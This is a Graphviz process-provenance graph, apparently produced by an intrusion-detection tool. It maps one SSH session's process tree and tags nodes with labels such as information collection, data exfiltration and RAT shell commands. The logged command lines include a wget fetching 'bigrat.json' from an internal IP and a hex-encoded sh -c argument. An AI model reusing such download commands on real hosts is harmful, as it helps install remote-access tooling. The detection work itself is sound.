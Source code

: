 digraph graph1 {
node [shape = record];
table11 [label = "{<head>processname:  | pid: 1258 | cmdline:  | starttime: 0 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table2 [label = "{<head>processname:  | pid: 1236 | cmdline:  | starttime: 0 | enddtime: -1}"];
table0 [label = "{<head>processname:  | pid: 0 | cmdline:  | starttime: 0 | enddtime: -1}"];
table12 [label = "{<head>processname: bash | pid: 1259 | cmdline: -bash | starttime: 1618985500872000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500872000000}", color = red];
table80 [label = "{<head>processname: sftp-server | pid: 1296 | cmdline: /usr/lib/openssh/sftp-server | starttime: 1618985501092000000 | enddtime: -1 | label: PT10 Shell command.(rat) timestamp: 1618985501092000000}", color = red];
table79 [label = "{<head>processname:  | pid: 1295 | cmdline:  | starttime: 0 | enddtime: -1}"];
table20 [label = "{<head>processname:  | pid: 1262 | cmdline:  | starttime: 0 | enddtime: -1}"];
table99 [label = "{<head>processname: bash | pid: 1323 | cmdline: bash -c /usr/lib/openssh/sftp-server | starttime: 1618985552267000000 | enddtime: -1 | label: PT10 Shell command.(rat) timestamp: 1618985552267000000}", color = red];
table98 [label = "{<head>processname:  | pid: 1322 | cmdline:  | starttime: 0 | enddtime: -1}"];
table97 [label = "{<head>processname:  | pid: 1300 | cmdline:  | starttime: 0 | enddtime: -1}"];
table13 [label = "{<head>processname: sh | pid: 1260 | cmdline: sh -c 2f7573722f62696e2f7861757468202d71202d | starttime: 1618985500776000000 | enddtime: 1618985500872000000 | label: PT10 Shell command.(rat) timestamp: 1618985500776000000}", color = red];
table47 [label = "{<head>processname: bash | pid: 1283 | cmdline: -bash | starttime: 1618985500900000000 | enddtime: 1618985500912000000 | label: PT10 Shell command.(rat) timestamp: 1618985500900000000}", color = red];
table64 [label = "{<head>processname: bash | pid: 1285 | cmdline: -bash | starttime: 1618985500948000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500948000000}", color = red];
table72 [label = "{<head>processname: bash | pid: 1291 | cmdline: -bash | starttime: 1618985500960000000 | enddtime: 1618985500968000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500960000000}", color = red];
table75 [label = "{<head>processname: bash | pid: 1293 | cmdline: -bash | starttime: 1618985500976000000 | enddtime: 1618985500980000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500976000000}", color = red];
table84 [label = "{<head>processname: bash | pid: 1297 | cmdline: -bash | starttime: 1618985507140000000 | enddtime: 1618985507140000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985507140000000}", color = red];
table86 [label = "{<head>processname: ls | pid: 1298 | cmdline: ls --color=auto | starttime: 1618985507672000000 | enddtime: 1618985507676000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985507672000000}", color = red];
table87 [label = "{<head>processname: wget | pid: 1299 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985521583000000 | enddtime: 1618985564027000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985521583000000 | label: PT1 The process has network connections. timestamp: 1618985521583000000}", color = red];
table100 [label = "{<head>processname: free | pid: 1324 | cmdline: free -m | starttime: 1618985581803000000 | enddtime: 1618985581979000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985581795000000}", color = red];
table110 [label = "{<head>processname: wget | pid: 1325 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985583599000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985583599000000 | label: PT1 The process has network connections. timestamp: 1618985583599000000}", color = red];
table18 [label = "{<head>processname: xauth | pid: 1261 | cmdline: /usr/bin/xauth -q - | starttime: 1618985500776000000 | enddtime: 1618985500872000000 | label: PT10 Shell command.(rat) timestamp: 1618985500776000000}", color = red];
table48 [label = "{<head>processname: ls | pid: 1284 | cmdline: ls /etc/bash_completion.d | starttime: 1618985500900000000 | enddtime: 1618985500912000000 | label: PT10 Shell command.(rat) timestamp: 1618985500900000000}", color = red];
table65 [label = "{<head>processname: lesspipe | pid: 1286 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618985500948000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500948000000}", color = red];
table73 [label = "{<head>processname: dircolors | pid: 1292 | cmdline: dircolors -b | starttime: 1618985500964000000 | enddtime: 1618985500968000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500964000000}", color = red];
table76 [label = "{<head>processname: ls | pid: 1294 | cmdline: ls /etc/bash_completion.d | starttime: 1618985500976000000 | enddtime: 1618985500980000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500976000000}", color = red];
table67 [label = "{<head>processname: basename | pid: 1287 | cmdline: basename /usr/bin/lesspipe | starttime: 1618985500948000000 | enddtime: 1618985500952000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table69 [label = "{<head>processname: lesspipe | pid: 1288 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618985500952000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table70 [label = "{<head>processname: dirname | pid: 1290 | cmdline: dirname /usr/bin/lesspipe | starttime: 1618985500956000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table11 -> table12: head;
table2 -> table11: head;
table0 -> table2: head;
table0 -> table20: head;
table0 -> table97: head;
table12 -> table13: head;
table12 -> table47: head;
table12 -> table64: head;
table12 -> table72: head;
table12 -> table75: head;
table12 -> table84: head;
table12 -> table86: head;
table12 -> table87: head;
table12 -> table100: head;
table12 -> table110: head;
table79 -> table80: head;
table20 -> table79: head;
table98 -> table99: head;
table97 -> table98: head;
table13 -> table18: head;
table47 -> table48: head;
table64 -> table65: head;
table72 -> table73: head;
table75 -> table76: head;
table65 -> table67: head;
table65 -> table69: head;
table69 -> table70: head;
}

